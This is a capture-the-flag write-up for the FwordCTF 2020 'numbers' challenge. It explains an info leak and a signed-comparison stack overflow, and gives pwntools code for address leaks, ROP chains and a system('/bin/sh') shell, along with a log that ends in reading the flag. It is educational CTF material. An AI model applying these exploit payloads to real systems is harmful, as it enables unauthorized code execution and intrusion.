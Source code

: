 # Numbers

We are given a 64-bit executable:
```bash
$ file numbers
numbers: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8f76f3042db00cbbb5da977e530fac85c27dff93, stripped
```

The following protections are enabled:
```bash
checksec numbers
[*] '/home/vagrant/CTF/fword/numbers/numbers'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We see that no stack canary is present. This usually means that there will be a buffer overflow we can exploit.

The program asks for a number `<=60`, asks us if we are sure and then repeats the whole process, as long as we do not answer `n` to the `try again ?` dialogue:
```bash
 ./numbers

do you have any number in mind ??
42
are yo sure ??
yes
yes

try again ?
sure

do you have any number in mind ??
are yo sure ??

try again ?
```

Time to analyze the programm. The function `are_you_sure` reads up to the number of bytes we specified and then prints this out using `printf("%s", buf);`. Here lies the first weakness. The string we provide is reflected without being `null` terminated. Thus, we can leak addresses on the stack by providing a string that is a multiple of 8 bytes long (including `\n`). 

```c
__int64 __fastcall are_you_sure(unsigned int num)
{
  char buf[64]; // [rsp-40h] [rbp-40h] BYREF

  puts("are yo sure ??");
  read(0, buf, num);
  printf("%s", buf);
  return 0LL;
}
```

We can leak the PIE base using this code:
```python
def leak_addr(number):
    io.sendlineafter("do you have any number in mind ??", str(number))
    payload = "A"*(number-1)
    io.sendlineafter("are yo sure ??", payload)
    io.recvline()
    io.recvline()
    leak = io.recvline()
    leak = u64(leak.strip().ljust(8, "\x00"))
    return leak
```

Now we need to find a way to control `RIP`. The `read_number` function verifies whether our number is less or equal than 60.
The program converts our inpupt to an unsigned integer, but performs a signed comparison. By providing a negative number, we can makes the signed check true,
but then return on a huge unsigned number as return value. This number will then be used in the `are_you_sure` function (see above) to read that many bytes into a 64-byte buffer. Because canaries are disabled, we can get RIP control easily. 

```c
__int64 __fastcall read_number(int *num)
{
  __int64 result; // rax
  char buf; // [rsp-8h] [rbp-8h] BYREF

  puts("\ndo you have any number in mind ??");
  read(0, &buf, 8uLL);
  *num = atoi(&buf);
  result = (unsigned int)*num;
  if ( (int)result <= 60 )
    return result;
  puts("you're a naughty boy..");
  exit(1);
  return result;
}
```

We now use this overflow to leak a libc adress (puts) and return to the start of main, so we can exploit the buffer overflow again:
```python
io.sendlineafter("try again ?", "")
io.sendlineafter("do you have any number in mind ??", "-3") # negative number <=60 in signed comparision. Will read a lot of data

# Rop chain to leak libc
rop_exe =  ROP(exe)
rop_exe.puts(exe.got.puts)
rop_exe.call(piebase + 0x9c5) # main

#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # local
libc = ELF('./libc6_2.28-0ubuntu1_amd64.so') # remote

# create payload
payload = "A"*64
payload += "B"*8
payload += str(rop_exe)

io.sendafter("are yo sure ??", payload)
io.recvuntil("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB")
```

Analyzing the address of the leak and using the [libc database](https://libc.blukat.me/) we identify that `libc6_2.28-0ubuntu1_amd64.so` is used on the remote server. Knowing this, we can  exploit the buffer overflow a second time, now calling `system('/bin/sh')`. We just have to make sure that `RSP` is 0x10 bytes aligned (which it was not if called directly). We could do this using a `pop` gadget or by calling puts with some value and hoping to have better alignment:

```python
io.sendlineafter("do you have any number in mind ??", "-3") # negative number <=60 in signed comparision. Will read a lot of data

# create system('/bin/sh') rop chain
rop = ROP(libc)
rop.puts(libc.sym.puts) # stupid pivot because of 0x10 alignment for rsp
rop.system(next(libc.search("/bin/sh")))

#print rop.dump()

payload = "A"*64
payload += "B"*8
payload += str(rop)

io.sendafter("are yo sure ??", payload)
io.recvuntil("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB")

io.interactive()
```

Running the script gives us a shell and we can read the flag:

```bash
$  numbers python xpl.py
[*] '/home/vagrant/CTF/fword/numbers/numbers'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to numbers.fword.wtf on port 1237: Done
[+] piebase: 0x5560f04c7000
[*] Loaded 14 cached gadgets for 'numbers'
[*] '/home/vagrant/CTF/fword/numbers/libc6_2.28-0ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] libc address: 0x7f22d22fc000
[*] Loaded 196 cached gadgets for './libc6_2.28-0ubuntu1_amd64.so'
[*] Switching to interactive mode
o�1�"AUATI\x89�USH����ls
flag.txt
numbers
ynetd
$ cat flag.txt
FwordCTF{s1gN3d_nuMb3R5_c4n_b3_d4nG3r0us}
$
```

The full exploit can be found in [xpl.py](https://github.com/ybieri/ctf-writeups/blob/master/FwordCTF2020/numbers/xpl.py).
